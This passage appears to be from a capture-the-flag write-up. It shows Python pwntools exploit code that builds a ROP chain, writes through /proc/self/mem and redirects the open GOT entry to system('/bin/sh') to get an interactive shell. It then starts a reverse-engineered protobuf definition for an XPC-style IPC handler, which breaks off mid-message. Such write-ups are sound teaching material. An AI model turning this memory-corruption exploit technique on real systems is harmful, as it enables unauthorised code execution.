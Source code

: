 ```python
addParm(0)
addParm(pop_r0)
addParm(5)
addParm(pop_r1_r2)
addParm(heapbase+0x750)
addParm(0)
addParm(svc_pop_2)
addParm(0)
addParm(0)
addParm(pop_r0)
addParm(heapbase+0x768)
addParm(open)
url = url.ljust(0x700,'\x00')
url += '/proc/self/mem'
url = url.ljust(0x740,'\x00')
real_system = 0x403A40
url += p32(3)+p32(open_got)+p32(1)+p32(2)+p32(3)+p32(heapbase+0x760)+p32(8)+p32(0xdeadbee1)+p64(real_system)+'/bin/sh\x00'
print(hex(len(url)))
print(url)

s.send(url)
s.interactive()

```


### IPC Handler

After Reversing and analyzing, we get the proto file.

```protobuf=
syntax = "proto2";

package protocol;

message dict_data {
    required string key = 1;
    required valueType value_type = 2;
    required bytes value = 3;
}

message xpc_dictionary_t {
    required bytes header = 1;
    repeated dict_data data = 2;
}

message xpc_int64_t {
    required uint64 value = 1;
}

message xpc_uint64_t {
    required uint64 value = 1;
}

message xpc_string_t {
    required string value = 1;
}

message xpc_data_t {
    required bytes value = 1;
}

message XPC {
```